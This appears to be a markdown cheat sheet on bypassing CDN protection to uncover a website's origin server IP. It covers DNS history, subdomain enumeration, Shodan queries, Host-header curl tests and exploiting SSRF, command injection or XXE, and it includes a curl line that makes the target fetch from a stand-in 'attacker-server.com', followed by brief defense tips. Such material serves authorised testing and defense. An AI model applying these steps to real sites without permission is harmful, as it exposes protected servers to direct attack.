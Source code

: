 # CDN Bypass – Techniques & Concepts
---
CDN (Content Delivery Network) is used to:
- Cache content close to users
- Mask the origin server's IP
- Provide security features (WAF, rate-limiting, DDoS protection)

CDN Bypass refers to techniques used to:
- Discover the origin server IP
- Interact directly with the backend server, bypassing CDN protections

## Common CDN Bypass Techniques
---
### 1. Find the Origin IP
Use recon tools to locate the real IP behind the CDN.

#### a. DNS History / Passive DNS
Check historical A records before CDN was used:
- [SecurityTrails](https://securitytrails.com/)
- [ViewDNS IP History](https://viewdns.info/iphistory/)
- [RiskIQ PassiveTotal](https://community.riskiq.com/)

#### b. Subdomain Enumeration
Some subdomains may not be behind the CDN:
```
amass enum -d target.com
```

#### c. Shodan / Censys Search
Search by SSL cert, favicon hash, or headers:
```
ssl.cert.subject.CN:"target.com"
http.favicon.hash:123456789
```
- [shodan.io](https://www.shodan.io/)
- [censys.io](https://search.censys.io/)

#### d. Email/Webmail Leaks
Check email headers (e.g., password reset) which might reveal origin IP.

#### e. Misconfigured DNS
Sometimes origin domain points directly to server IP (e.g., ftp.target.com).

#### f. SSL Certificate Transparency Logs
View issued certificates to discover hidden subdomains:
- [crt.sh](https://crt.sh/)
- [Certspotter](https://sslmate.com/certspotter/)

---
### 2. Test IP Candidates
Once you have potential origin IPs:
- Use `curl` or `nmap` with Host header
```
curl -H "Host: target.com" http://<origin_ip>
```
If it returns the real site -> origin IP found.

---
### 3. Check Firewall Misconfigurations
Misconfigured origin may accept direct traffic:
- `iptables` or `fail2ban` not properly restricting to CDN IPs
- Use tools like `wafw00f` to detect WAF presence/absence
```
wafw00f http://target.com
```

---
### 4. Leaked Files or Git Repos
Sometimes `.git`, `.env`, or server files are exposed via other subdomains that bypass CDN.

---
### 5. Reveal Origin IP via Application Vulnerabilities
Instead of finding the IP first, you can exploit certain vulnerabilities on the website itself (while it's still behind the CDN) to force the origin server to reveal its IP address. This is typically done by making the server initiate a connection to an external system that you control.

Key vulnerabilities for this technique include:
-   **SSRF (Server-Side Request Forgery):** This is the most common method. By exploiting an SSRF flaw, you can command the server to send a request to a URL you own. Your server's logs will then show the origin server's IP as the source of the request.
-   **Command Injection:** If you can execute commands on the server, you can use utilities like `curl`, `wget`, or `ping` to make it contact your external server.
-   **XXE (XML External Entity):** Similar to SSRF, XXE can be used to force the server to fetch an external resource, revealing its IP to you.

**Example (using an SSRF vulnerability):**
1. An attacker identifies an SSRF vulnerability in a feature on `target.com`.
2. They craft a request that forces the server to connect to their own machine (e.g., `attacker-server.com`).
```bash
# The attacker sends this request to the public website
curl "https://target.com/loadImage?url=http://attacker-server.com/reveal.txt"
```
3. The attacker checks the access logs on `attacker-server.com`. The IP address that requested `/reveal.txt` is the real IP of the origin server, successfully bypassing the CDN's protection.
---
## Defense Tips (For Blue Team)
---
- Restrict origin IP to only accept traffic from CDN IP ranges (e.g., Cloudflare IP list)
- Use firewall rules and allow-lists
- Monitor DNS records for leaks
- Regularly scan for exposed services and old records
---
---


